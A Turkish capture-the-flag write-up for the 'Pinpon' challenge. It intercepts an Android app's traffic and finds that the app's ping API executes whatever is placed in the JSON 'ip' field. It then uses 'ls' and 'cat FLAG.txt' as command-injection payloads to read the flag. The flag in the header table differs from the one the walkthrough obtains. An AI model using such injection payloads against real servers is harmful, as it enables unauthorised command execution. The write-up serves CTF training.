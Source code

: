 
# Pinpon

|    |  |
| ------------- |:-------------:|
| Zorluk        | Çerez(100 Puan)|
| Aşama         | Yarı Final    |
| Soru Türü     | Miscellaneous |
| Dosyalar      | raket.apk     |
| Yazar         | [Rednexie](https://github.com/Rednexie) |
 
## Soru Açıklaması
```
Pinpon topunu sunuculara at, uyanıklarsa sana geri göndereceklerdir.
``` 

## İpuçları
```
YOK
```

## Bayrak
```
BayrakBende{5unucu_ö1dühttp}
```





# WriteUp

## Ağ İzleme Kurulumunun Yapılması
Android uygulamamızı açtığımızda karşımızda verilen IP adresine ICMP ping isteği atmamıza yarayan bir sistem çıkacaktır. Bu sistem komutu Android cihazımızda yürüterek değil, bir API aracılığıyla çalışmaktadır.

Bu yüzden Android uygulamamızın tüm ağ trafiğini izlememiz gerekecektir. Bunun birkaç yolu bulunmakta:

- HTTP Toolkit'e Frida veya Android Studio aracılığıyla bir emülatör bağlamak
- HTTP Toolkit'e kendi fiziksel Android cihazımızı bağlamak
- Kendi cihazımızdaki tüm trafiği izleyecek kurulumu yapıp bir Android emülatörüyle uygulamayı çalıştırmak

Android Studio bir CTF yarışmacısının elinde olacağı için bu yollardan en kolayıdır. Cihazımızı ADB'ye bağlayıp HTTP Toolkit aracılığıyla trafiğini izlememiz mümkün.

### API'ı Keşfetmek
Cihazın ping komutunu bir API aracılığıyla yürüttüğünü anlamıştık. Trafiğimizi izlersek bunu sağlayan HTTP isteğini yakalayabiliriz.

Cihaz, komutu sunucuya JSON gövdesine sahip bir POST isteği ile gönderiyor. Dolayısıyla bu isteği kendimiz de herhangi bir yerden atabiliriz. Ayrıca isteği atarken giden komutu değiştirebiliriz:


```json
{
    "ip": "ping 0.0.0.0 -t 4" 
}
```

Normalde giden isteğin gövdesi aşağıdaki gibidir. Biz bunu istediğimiz komutları çalıştırma amacıyla kullanabiliriz. Örneğin, sunucudaki dizini listelemek için bir istek gönderelim:

```json
{
    "ip": "ls"
}
```



Cevap aşağıdaki gibi olacaktır:

```text
.dockerignore
.gitignore
node_modules
Dockerfile
bun.lockb
index.js
FLAG.txt
package.json
```

Komutumuzun başarıyla yürütüldüğünü ve sunucunun bize bir dizin listelemesi yaptığını görüyoruz. Dizindeki dosyaları incelediğimizde aralarında 'FLAG.txt' isimli dosya gözümüze çarpmış olmalı. İçeriğini okumak için sonraki komutumuzu çalıştırıyoruz:

```json
{
    "ip": "cat FLAG.txt"
}
```
Sunucu da cevap olarak bayrağımızı döndürecektir:
```text
BayrakBende{s1b3r1_4z4lt4l1m_4g4l4r}
```
